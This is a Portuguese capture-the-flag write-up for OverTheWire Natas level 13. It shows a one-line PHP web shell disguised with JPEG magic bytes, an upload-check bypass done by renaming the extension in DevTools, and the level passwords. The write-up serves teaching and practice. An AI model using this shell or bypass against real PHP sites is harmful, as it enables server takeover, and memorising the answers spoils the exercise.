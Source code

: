 # [Natas Level 12-13](https://overthewire.org/wargames/natas/natas13.html)


### Objetivo
O objetivo desse level é encontrar o password para o próximo level **natas14**. Além de um campo para realizar o envio de um arquivo como no desafio anterior, mas validações são adicionadas para dificultar.


### Credenciais para autenticação no desafio

```
Username: natas13
```
```
Password: lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9
```
```
URL: http://natas13.natas.labs.overthewire.org
```

### Resolução

Começo esse desafio abrindo a URL informada nas instruções e me autenticando no usuário **natas13**:

<img src="./imgs/01.png">

<br>

Após realizada a autenticação, uma mensagem semelhante a do desafio anterior aparece, possuindo como diferença somente uma nota dizendo que por questões de segurança a partir de agora são aceitos apenas aquivos de imagem:

<img src="./imgs/02.png">

<br>

Começo visualizando o código fonte desse arquivo, muito parecido com o [natas 11-12](../natas11-12/), porém aqui é realizado uma validação adicional do arquivo enviado para confirmar se ele é realmente uma imagem, como pode ser visto abaixo destacado em laranja:

<img src="./imgs/03.png">

<br>

Vou deixar de lado oque essa função **exif_imagetype** faz por enquanto, primeiro vou testar o que recebo ao enviar um arquivo com a extensão **.jpeg**:

    touch teste.jpeg

<img src="./imgs/04.png">

<br>

Depois de enviar o arquivo tenho como resposta que ocorreu um erro quando a função **exif_imagetype** tentou ler o arquivo, além de uma mensagem(**File is not an image**) dizendo o arquivo não é uma imagem:

<img src="./imgs/05.png">

<br>

Faço mais um teste criando outro arquivo com a extensão **.php**, porém recebo exatamente o mesmo erro, pelo que parece não é a extensão que está influênciando na recusa dos meus arquivos:

    touch teste.php

<img src="./imgs/06.png">
<img src="./imgs/07.png">

<br>

Voltando ao que a função **exif_imagetype** faz, encontrei o uma informação interessante na [documentação](https://www.php.net/manual/pt_BR/function.exif-imagetype.php), essa função lê os primeiros bytes do arquivo e verifica a sua assinatura. Se eu pudesse modificar esses primeiros bytes o arquivo poderia burlar a validação.

<img src="./imgs/08.png">

<br>

Procurei pelas assinaturas que os arquivos possuem e encontrei uma [lista](https://en.wikipedia.org/wiki/List_of_file_signatures) que contem entre elas uma assinatura **jpeg** em que **FF D8 FF EE** representa a assinatura hexadecimal e **ÿØÿî** como a assinatura do arquivo aparece quando interpretada como texto:

<img src="./imgs/09.png">

<br>

Com isso em mãos vou utilizar o mesmo [shell](../natas11-12/shell.php) usado no desafio anterior e salvá-lo no arquivo **teste.php** colocando a assinatura na frente do código, isso vai ser útil para quando eu modificar os bytes iniciais, o código do shell não ser alterado:

    ÿØÿî<?php echo shell_exec($_GET['e'].' 2>&1'); ?>

<img src="./imgs/10.png">

<br>

Há várias formas de alterar os bytes hexadecimais de um arquivo, uma bem fácil é por meio do site [hexed.it](https://hexed.it/). O caminho é o seguinte: abro meu arquivo(**Open file**), modifico os 4 primeiros bytes para **FF D8 FF EE** e depois exporto(**Export**) o arquivo para uma pasta qualquer:

<img src="./imgs/11.png">
<img src="./imgs/12.png">

<br>

Com o arquivo modificado, faço a seleção dele no desafio, mas antes de enviá-lo, vou precisar fazer mais uma alteração.

<img src="./imgs/13.png">

<br>

Abro o **DevTools**(ferramentas de desenvolvedor) com o atalho **F12** e modifico a extensão de **.jpg** para **.php** para permitir que meu código funcione correetamente.

<img src="./imgs/14.png">

<br>

Por fim clico em **Upload File** e o arquivo é enviado com sucesso:

<img src="./imgs/15.png">

<br>


Clicando nesse arquivo recém criado recebo um erro indicando que o parâmetro **e** está indefinido, isso ocorre pois não passei nenhum parâmetro na URL e o meu shell não está conseguindo executar o valor esse parâmetro.

<img src="./imgs/16.png">

<br>

Adicionando **?e=** e colocando o valor **cat /etc/natas_webpass/natas14**, obtenho um password(começando a partir da letra q):
<img src="./imgs/17.png">

<br>

Dessa forma obtenho o password para o próximo level **natas14**:

    qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP